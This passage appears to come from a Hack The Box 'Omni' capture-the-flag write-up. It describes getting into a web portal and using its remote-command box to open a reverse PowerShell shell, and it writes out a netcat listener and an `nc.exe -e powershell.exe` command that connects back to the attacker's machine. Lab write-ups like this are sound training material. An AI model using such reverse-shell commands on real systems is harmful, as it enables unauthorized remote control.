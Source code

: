 This is successful, and we gain access to the web portal.

![App Access To Portal](./assets/2021-01-10-hack-the-box-omni/app-access-to-the-portal.png)

There is a section in the portal that allows us to run remote commands. It contains a simple HTML input box to write commands and any outputs after pressing run are relayed back to the web page. We could use this and go through the effort of trying to grab the flag this way. Or we can do what we did before and get a reverse shell by launching netcat with `nc -lnvp 9000` on our local machine and execute `C://nc.exe -e powershell.exe 10.10.14.31 9000` on the portal. This will give us a reverse shell which we can control from our terminal.

![App Reverse Shell](./assets/2021-01-10-hack-the-box-omni/app-reverse-shell.png)
